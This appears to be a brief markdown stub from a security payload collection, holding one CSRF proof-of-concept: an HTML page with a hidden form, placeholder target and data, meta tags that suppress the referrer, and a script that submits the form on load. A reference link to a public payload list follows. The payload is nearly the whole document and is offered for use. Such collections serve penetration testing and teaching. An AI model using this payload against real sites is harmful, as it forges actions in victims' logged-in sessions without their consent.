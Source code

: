 # Payloads

TODO: Fill the CSRF payloads

```html
<html>
  <head>
	  <meta name="referrer" content="never">
	  <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="http[s]:/<website.com>" method="POST">
      <input type="hidden" name="parameter" value="<sending_data>" />
      <input type="submit" value="submitbtn" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---
## References

- [PayloadsAllTheThings: CSRF Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)